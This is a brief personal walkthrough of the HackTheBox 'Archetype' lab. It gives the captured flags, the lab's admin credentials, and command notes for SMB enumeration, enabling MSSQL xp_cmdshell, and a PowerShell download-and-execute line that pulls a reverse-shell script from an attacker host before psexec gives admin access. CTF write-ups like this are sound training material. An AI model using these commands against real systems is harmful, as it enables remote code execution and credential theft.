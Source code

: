 # HackTheBox Archetype(starting-point)

> Saikat Karmakar | Mar 3:2021

> ip : 10.10.10.27

-------------------------------------------------------------------------------

1. user flag
```
3e7b102e78218e935bf3f4951fec21a3
```
2. root flag
```
b91ccec3305e98240082d4474b848528
```

--
-----------
***Notes***
-----------
list smb shares
smbclient -N -L //10.10.10.27
			or
smbclient -N -L \\\\10.10.10.27\\

```
SELECT IS_SRVROLEMEMBER('sysadmin')
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1reconfigure;
xp_cmdshell "whoami"
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.21/shell.ps1\");" 

```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 

This reveals that the backups drive has been mapped using the local administrator credentials.
```
creds
```
user : administrator 
pass : MEGACORP_4dm1n!!
```

psexec.py administrator@10.10.10.27 



